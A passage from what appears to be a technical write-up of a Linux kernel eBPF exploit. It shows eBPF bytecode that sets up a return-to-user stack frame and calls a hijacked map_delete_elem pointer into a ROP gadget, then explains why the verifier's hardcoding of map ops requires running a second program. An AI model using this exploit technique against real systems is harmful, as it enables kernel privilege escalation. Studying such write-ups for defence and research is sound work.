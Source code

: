 ```
        BPF_LD_IMM64(BPF_REG_0, user_cs),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x38),
        BPF_LD_IMM64(BPF_REG_0, user_rflags),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x30),
        BPF_LD_IMM64(BPF_REG_0, user_rsp|8),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x28),
        BPF_LD_IMM64(BPF_REG_0, user_ss),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_0, -0x20),
        //Jmp to gadget
        //Now we jmp to map->ops->map_update_elem
        BPF_LD_MAP_FD(BPF_REG_1, fd),
        BPF_MOV64_IMM(BPF_REG_2, 0),
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_2, -0x10),
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x10),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_delete_elem),// here will call 'pop rbx ; ret'
        //Exit
        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_EXIT_INSN(),
```
Why do I need to run another ebpf program?

Because even though we have modified `struct array_map ->map -> ops -> map_delete_elem` when executing the eBPF program `B`, we cannot directly hijack the control flow because of the following code:

```
static int do_misc_fixups(struct bpf_verifier_env *env)
{
	...
	if (prog->jit_requested && BITS_PER_LONG == 64 &&
		    (insn->imm == BPF_FUNC_map_lookup_elem ||
		     insn->imm == BPF_FUNC_map_update_elem ||
		     insn->imm == BPF_FUNC_map_delete_elem ||
		     insn->imm == BPF_FUNC_map_push_elem   ||
		     insn->imm == BPF_FUNC_map_pop_elem    ||
		     insn->imm == BPF_FUNC_map_peek_elem   ||
		     insn->imm == BPF_FUNC_redirect_map    ||
		     insn->imm == BPF_FUNC_for_each_map_elem ||
		     insn->imm == BPF_FUNC_map_lookup_percpu_elem)) {
			aux = &env->insn_aux_data[i + delta];
			if (bpf_map_ptr_poisoned(aux))
				goto patch_call_imm;
			map_ptr = BPF_MAP_PTR(aux->map_ptr_state);
			ops = map_ptr->ops;
			...
			switch (insn->imm) {
			...
			case BPF_FUNC_map_delete_elem:
				insn->imm = BPF_CALL_IMM(ops->map_delete_elem);
				continue;
			...
```
This code means that as long as our eBPF code passes the verifier, the verifier will directly hardcode `ops->map_delete_elem` into the eBPF code. Therefore, only after modifying `ops->map_delete_elem` and running a new eBPF code, can the control flow be hijacked.